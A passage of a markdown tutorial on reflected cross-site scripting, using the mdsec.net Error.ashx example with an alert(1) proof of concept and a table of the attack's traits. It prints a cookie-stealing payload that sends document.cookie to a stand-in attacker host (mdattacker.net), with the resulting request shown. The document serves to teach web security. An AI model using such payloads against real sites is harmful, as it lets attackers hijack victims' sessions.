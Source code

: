 ```
http://mdsec.net/error/5/Error.ashx?message=<script>alert(1)</script>
```

➡ The server responds with:

```html
<p><script>alert(1)</script></p>
```

➡ The browser executes the code. You get an `alert(1)` — the classic **XSS proof-of-concept**.

---

### 🧪 Signature Traits of Reflected XSS

| ✅ Trait                       | 🔍 Description                                      |
| ----------------------------- | --------------------------------------------------- |
| Dynamic server-side rendering | The response is generated using input from the URL  |
| Immediate payload execution   | Happens in one request-response cycle               |
| No persistent storage         | Payload is **not saved** on the server              |
| URL-delivered                 | Attack is typically in a **malicious link**         |
| Triggers on user interaction  | Only works if **someone clicks the malicious link** |

---

### 🧰 Real-World Payload Breakdown

#### 📦 Payload Example

```js
<script>var i=new Image;i.src="http://mdattacker.net/"+document.cookie;</script>
```

#### 🧬 Dissecting the Logic

| Code Part                                         | Purpose                                                     |
| ------------------------------------------------- | ----------------------------------------------------------- |
| `var i=new Image;`                                | Creates an invisible image element                          |
| `i.src="http://mdattacker.net/"+document.cookie;` | Sets the image `src` to attacker's domain + victim's cookie |
| Browser makes request:                            |                                                             |

```http
GET /sessId=abc123... HTTP/1.1
Host: mdattacker.net
```

✅ This sends the victim's session cookie to the attacker's server, where it can be captured and **used to hijack the session**.

---
